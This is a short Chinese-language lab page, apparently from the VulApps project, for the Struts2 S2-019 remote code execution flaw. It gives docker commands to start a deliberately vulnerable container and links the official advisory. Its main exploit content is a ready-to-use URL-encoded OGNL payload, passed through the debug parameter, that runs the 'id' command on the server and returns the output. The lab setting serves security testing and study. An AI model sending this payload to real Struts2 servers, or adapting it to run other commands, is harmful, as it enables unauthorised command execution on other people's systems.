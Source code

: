 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-019)"
date: 2017-06-13 18:43:59 +0800
image: '/assets/img/'
description: 'Struts2 远程代码执行漏洞(S2-019)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-019)环境'
introduction: 'Struts2 远程代码执行漏洞(S2-019)环境'
---
```


<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>

### 漏洞信息

 * [S2-019 公告](http://struts.apache.org/docs/s2-019.html)
 
详细参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-019
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-019
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行

```
?debug=command&expression=%23a%3D%28new%20java.lang.ProcessBuilder%28%27id%27%29%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew%20java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew%20java.io.BufferedReader%28%23c%29%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read%28%23e%29%2C%23out%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23out.getWriter%28%29.println%28%27dbapp%3A%27%2bnew%20java.lang.String%28%23e%29%29%2C%23out.getWriter%28%29.flush%28%29%2C%23out.getWriter%28%29.close%28%29%0A
```

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-019/s2-019-1.png)

### 其它

感谢 [@zerokeeper](https://github.com/zerokeeper) 贡献
